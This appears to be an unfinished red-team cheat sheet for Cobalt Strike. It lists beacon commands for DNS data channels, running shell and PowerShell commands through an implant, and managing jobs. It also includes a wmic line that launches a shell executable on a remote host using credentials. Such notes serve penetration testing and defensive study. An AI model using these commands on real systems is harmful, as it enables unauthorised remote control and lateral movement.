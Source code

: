 # Cobalt Strike

Search Tag(s): #cobalt-strike #command-and-control

TODO: Finish the missing basic information with screenshots

## 01 - Shell Handler

### 1.1 - HTTP

### 1.2 - HTTPS

### 1.3 - SMB

### 1.4 - TCP

### 1.5 - DNS

```
mode dns                  Use DNS A as data channel (DNS beacon only)
mode dns-txt              Use DNS TXT as data channel (DNS beacon only)
mode dns6                 Use DNS AAAA as data channel (DNS beacon only)
```

## 02 - Execute Shell Commands

Execute any `shell` command that the beacon spawns a process `cmd.exe`.

```
beacon> shell <command> [arguments]
```

Execute any `shell` command that the beacon spawns a process `/bin/bash`.

```
ssh> shell <command> [arguments]
```

Spawns a `cmd.exe` process but doesn't print the output

```
beacon> execute <command> [arguments]
```

Execute commands without spawning `cmd.exe` except the running process comes from the `conhost.exe`. This is highly recommended when you perform post exploitation activities.

```
beacon> run <command> [args]

beacon> run arp -a

beacon> run wmic.exe /node:<IP> [/user:<username> /password:<password>] win32_process call create "C:\path\to\shell.exe"
```

Spawns a child process of `powershell.exe`.

```
beacon> powershell <cmdlet> [args]
```

Executes unmanaged powershell command. Make sure to change the process when using the `spawnto` command.

```
beacon> powerpick <cmdlet> [args]
```

## 03 - Clear Beacon Queue

> [!TIP] Fat Fingered!
> When you accidentally issued a command to beacon. You can just `clear` it without terminate the implant.

```
beacon> clear

ssh> clear
```

## 04 - Jobs Queue

Queue jobs

```
beacon> jobs
```

Kill job ID

```
beacon> jobkill <jid>
```

## 05 - Terminate Implant

```
beacon> exit

ssh> exit
```